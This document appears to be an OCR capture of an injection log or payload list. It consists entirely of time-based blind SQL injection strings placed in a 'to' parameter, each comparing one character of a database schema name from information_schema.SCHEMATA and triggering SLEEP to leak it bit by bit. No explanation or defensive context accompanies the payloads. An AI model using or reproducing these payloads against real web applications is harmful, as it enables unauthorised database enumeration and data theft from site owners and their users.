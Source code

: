 {to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=100,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>100,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=98,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>98,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=99,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,15,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,15,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,15,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,15,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,15,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,15,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,15,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=100,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>100,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=102,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>102,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,16,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=101,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>96,SLEEP(0.155797244898),SLEEP(0))}